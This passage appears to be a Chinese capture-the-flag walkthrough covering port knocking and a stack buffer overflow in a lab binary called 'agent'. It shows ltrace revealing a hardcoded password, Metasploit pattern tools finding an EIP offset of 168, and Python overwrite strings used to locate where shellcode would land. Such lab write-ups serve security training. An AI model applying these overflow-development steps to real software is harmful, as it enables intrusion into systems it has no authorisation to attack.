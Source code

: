 然后在目录下发现：
cat access_codes
SYN 7482,8279,9467

这是和项目六一样的端口敲震!敲震后本地就可以访问项目靶场环境的7788了！

先继续分析本地kali上的agent!
使用ltrace（跟踪进程调用库函数的情况）查看agent信息：

ltrace ./agent
随意输入数字！
strncmp("dwqdq\n", "48093572", 8)  = -1 ----正在将我提供的字符串与字符串48093572进行比较，在这种情况下导致=-1）

为了防止缓冲区溢出这种情况的出现，在C库函数中，许多对字符串操作的函数都有其"n兄弟"版本，例如strncmp，strncat，snprintf……兄弟版本的基本行为不变，但是通常在参数中需要多给出一个整数n，用于限制操作的最大字符数量。

甚至strings agent发现：两个地方使用了“%s”，这很可能是一个有效的溢出点！

vmmap
0xfffdc000 0xffffe000 rwxp      [stack]
发现这是个栈溢出的题目！

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
gdb ./agent
run
48093572    
输入后：
Main Menu:
1. Extraction Points
2. Request Extraction
3. Submit Report
0. Exit
选择Submit Report 3：

输入2000值后，发现segmentation fault溢出报错！存在缓冲区溢出！
0x41366641

还发现：堆栈开始是EAX寄存器
EAX: 0xffffcfd4 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASA\324\317\377\377TAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 41366641
发现偏移量为：168

python -c 'print "A" * 168 + "B" * 4'
通过测试：
EAX: 0xffffcfd4 ('A' <repeats 152 times>, "\324\317\377\377", 'A' <repeats 15 times>, "BBBB")
EIP被168个字节覆盖，但是多给的B字节走到了EAX上，在给多个C测试shellcode会走哪儿！

python -c 'print "A" * 168 + "B" * 4 + "CCCCCCCCCCCCCCCC"'
EAX: 0xffffcfd4 ('A' <repeats 152 times>, "\324\317\377\377", 'A' <repeats 12 times>, "BBBB", 'C' <repeats 16 times>)

或者：
info registers eax
x/20x $eax -32
这时候可看到：
0xffffcfc4:     0xffffcfd4      0x00000001      0x00000000      0x0804b02c
0xffffcfd4:     0x41414141      0x41414141      0x41414141      0x41414141
......
